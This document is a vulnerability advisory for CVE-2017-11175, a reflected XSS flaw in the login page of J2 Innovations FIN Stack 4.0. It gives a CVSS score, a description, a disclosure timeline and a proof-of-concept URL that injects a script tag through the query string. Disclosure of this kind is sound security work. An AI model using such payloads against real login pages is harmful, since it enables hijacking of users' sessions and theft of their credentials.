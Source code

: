 # CVE-2017-11175 - XSS in J2 Innovations FIN Stack 4.0

- Vendor: J2 Innovations
- Product: FIN Stack
- Version: 4.0
- CVE: CVE-2017-11175
- CVSS3.0 Base Score: 8.2 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N/E:P/RL:U/RC:C)

The authentication webform is vulnerable to reflected XSS via the query string to /login.

## Detailed Description of the Vulnerability

An attack is performed by manipulation of the URL, which points to the login page. The attack doesn't require authentication.
```
http://<domain>/login?<malicious code goes here>.
```

### PoC
```
http://gexample.com/login?a%22%3E%3Cscript%3Ealert%28%27MIR%20XSS%20Test%27%29%3C/script%3Ea=1
```
## Timeline

* 2017-07-05 - Vendor has been informed
* 2017-07-11 - Submitted request for a CVE number to Mitre
* 2017-07-12 - Mitre assigned CVE-2017-11175
* 2017-08-25 - Innovations says that it will take a month or two to fix
